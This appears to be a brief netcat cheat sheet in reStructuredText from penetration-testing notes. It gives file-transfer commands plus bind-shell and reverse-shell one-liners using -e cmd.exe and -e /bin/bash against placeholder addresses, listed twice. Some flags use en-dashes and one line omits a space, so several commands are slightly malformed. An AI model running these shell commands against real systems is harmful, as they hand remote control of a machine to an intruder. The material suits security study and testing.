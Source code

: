 Netcat
======

Shells
------

Server 

.. code-block:: shell

	nc –nlvp <port> > incoming.exe

Client

.. code-block:: shell
	
	nc –nv <your_ip_address> <port> < /path/to/the/file.exe

Bind Shell

.. code-block:: shell
	
	nc –nlvp <port> –e cmd.exe

Reverse shell

.. code-block:: shell
	
	nc –nv <your_ip_address><port> -e /bin/bash

File Transfer
-------------

- Server: nc –nlvp <port> &gt; incoming.exe
- Client: nc –nv <your_ip_address> <port> &lt; /path/to/the/file.exe
- Bind shell: nc –nlvp <port> –e cmd.exe
- Reverse shell: nc –nv <your_ip_address><port> -e /bin/bash